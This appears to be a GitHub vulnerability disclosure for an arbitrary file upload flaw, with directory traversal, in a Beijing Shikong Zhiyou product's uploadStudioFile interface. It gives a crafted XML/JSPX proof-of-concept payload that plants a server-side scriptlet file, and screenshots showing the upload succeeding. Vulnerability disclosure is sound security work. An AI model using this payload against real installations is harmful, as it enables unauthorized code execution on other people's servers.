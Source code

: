 ## Beijing Shikong Zhiyou's uploadStudioFile interface has an arbitrary file upload vulnerability.
Official Website：http://bjskzy.com/

System fingerprint status The system fingerprint status is as follows: 

There are more than a thousand users using it across the entire network.
<img width="2550" height="1362" alt="image" src="https://github.com/user-attachments/assets/1a69c097-62ce-44ca-83e6-34e45618df69" />
### Vulnerability Analysis
com.artery.form.services.FormStudioUpdater#uploadStudioFile has an arbitrary file upload vulnerability.

The characteristics here are also obvious: it uses "content" to receive uploaded data. Note that the uploaded data must be in XML format, as the code clearly indicates that SAXReader() is used to parse the data.  

Here, filename, filepath, and filesize are all controllable, and these parameters are used as the basis for file upload in the subsequent code. Obviously, the file suffix is controllable, and directory traversal is possible.
<img width="1385" height="1159" alt="image" src="https://github.com/user-attachments/assets/b8898744-1359-4dc6-a046-e0cf605a839d" />

Note here: the file size must be consistent.
<img width="1361" height="539" alt="image" src="https://github.com/user-attachments/assets/57690810-1aed-4d96-a169-bb0ee917a287" />

Therefore, a data packet can be constructed: (Note here that if the data is transmitted in XML format, using the JSPX method is optimal, because JSPX is essentially also a type of XML.)

```
<hello xmlns:jsp="http://java.sun.com/JSP/Page">
  <filename>hello.jspx</filename>
  <filepath>../../../pad/</filepath>
  <filesize>§347§</filesize>
  <lmtime>2025-05-20 10:30:00</lmtime>
  <jsp:scriptlet>out.print("HelloWorldTest");new java.io.File(application.getRealPath(request.getServletPath())).delete();</jsp:scriptlet>
</hello>
```
The payload is as follows
 <img width="932" height="340" alt="image" src="https://github.com/user-attachments/assets/b467820d-9e61-453d-8eb5-a28ec2f8b345" />

Upload successful
<img width="2466" height="822" alt="image" src="https://github.com/user-attachments/assets/4620a00d-fb1a-4627-91dd-bf9d36672602" />


